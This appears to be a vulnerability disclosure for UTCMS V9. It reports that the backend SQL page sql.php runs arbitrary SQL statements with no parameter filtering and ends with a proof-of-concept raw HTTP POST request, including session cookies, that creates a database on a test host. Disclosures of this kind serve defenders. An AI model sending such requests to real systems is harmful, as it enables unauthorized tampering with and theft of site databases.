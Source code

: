# Vendor

HuangDou

# Product

UTCMS

# version

 V9

# Download 

https://gitee.com/usualtool/ut-cms

# Vulnerability

Execute any SQL statement

# Description

In the sql.php page, users can execute SQL query statements, but no results will be displayed. The problem is that there is no parameter filtering, and attackers can execute SELECT, CREATE, INSERT and other statements after logging into the backend.

# Analysis

In the app/modules/ut-data/admin/sql.php , users can execute SQL query statements, but no results will be displayed. The problem is that there is no parameter filtering, and attackers can execute SELECT, CREATE, INSERT and other statements after logging into the backend.
<img width="1219" alt="image" src="https://github.com/user-attachments/assets/dcb5f05a-22bc-4a03-a7b1-81d04955586e">
<img width="591" alt="image" src="https://github.com/user-attachments/assets/4208dce2-3d7b-4e1c-8dde-04e9eef4a155">
<img width="512" alt="image" src="https://github.com/user-attachments/assets/e1d34cba-2f31-4c8a-a2ff-a304016f5b1a">


# POC
```
POST /app/dev/?m=ut-data&p=sql&do=sql HTTP/1.1
Host: 192.168.17.24
Content-Length: 27
Cache-Control: max-age=0
Origin: http://192.168.17.24
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/129.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.17.24/app/dev/?m=ut-data&p=sql
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: LCMSCID=eNoBMADP_0xi_M4DSIoRPJX0GmjWp8P0dR_nRDrVaQtwMd_VebHzo4R6BzTlLJOsxv0ZZWuUZkyuGGA; Hm_lvt_e3403438a2b250ca086ee44c2c5ebf72=1723189774; Language=zh; PHPSESSID=7qa0p64kd90fjea6fqc2apnjr9
Connection: close

sql=create database mirage;
```
